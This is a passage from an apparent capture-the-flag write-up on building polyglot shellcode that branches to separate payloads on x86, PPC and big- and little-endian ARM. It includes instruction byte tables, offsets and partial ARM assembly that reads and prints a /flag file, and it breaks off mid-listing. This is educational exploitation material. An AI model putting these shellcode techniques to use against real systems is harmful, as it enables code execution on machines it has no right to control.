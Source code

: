          o
         / \
        /\ x86
      PPC \
          /\
     ARMEL  ARMEB
    
x86's variable width instructions caused the greatest trouble. In particular, the middle two bytes of the PPC branch instructions of the form `48 00 XX XX` were interpreted in x86 as arithmetic with a register dereference. Since all GPRs were zero, this caused a segmentation fault on x86. So, we put the x86 jump in front followed by the remainder of the jumps. 

The branch part of our shellcode was:

           73 12 00 00 | 48 00 01 70 | 9a 00 00 40 | 13 00 00 ea
    x86    jmp 0x14    | <bypassed>  | <bypassed>  | <bypassed>
    PPC    andi  ...   | b 0x174     | <bypassed>  | <bypassed>
    ARMEB  tstvc ...   | stmdami ... | bls 0x110   | <bypassed>
    ARMEL  andeq ...   | andvc   ... | mulmi ...   | b 0x60

Graphically:

             X
            / \
    1      X  jmp
          / \   \
    2    X   b   x86
        / \   \
    3  X   bls PPC 
        \   \
    4    b   ARMEB
          \
           ARMEL

Then, we placed shellcode for x86 at 0x14, ARMEL shellcode at 0x60, ARMEB shellcode at 0x110, and PPC shellcode at 0x174. The x86 shellcode we used is described above. 

Our custom shellcode opened `/flag`, read it into the BSS section, wrote it to stdout, then exited. We used the same shellcode source for ARMEL and ARMEB:

    shellcode:
        add r0, pc, #(filename-shellcode-8)

        mov r7, #5
        mov r1, #0
        svc #0
        mov r0, a1

        mov r7, #3
        mov r3, #0x16000
        mov r1, r3
        mov r2, #4096
        svc #0
        mov r2, a1

        mov r7, #4
        mov r0, #1
        mov r1, r3
